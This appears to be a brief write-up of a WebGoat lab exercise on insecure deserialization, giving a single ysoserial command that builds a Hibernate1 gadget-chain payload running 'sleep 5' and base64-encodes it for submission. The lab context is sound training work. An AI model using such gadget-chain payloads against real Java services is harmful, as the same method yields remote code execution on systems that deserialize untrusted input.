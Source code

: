 # Insecure Deserialization
## Insecure Deserialization
### Number 5

![Exercise](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/08_01.png)

Clone [ysoserial](https://github.com/frohoff/ysoserial) and run:

```
java -jar ysoserial.jar Hibernate1 "sleep 5" | base64 -w0 
```
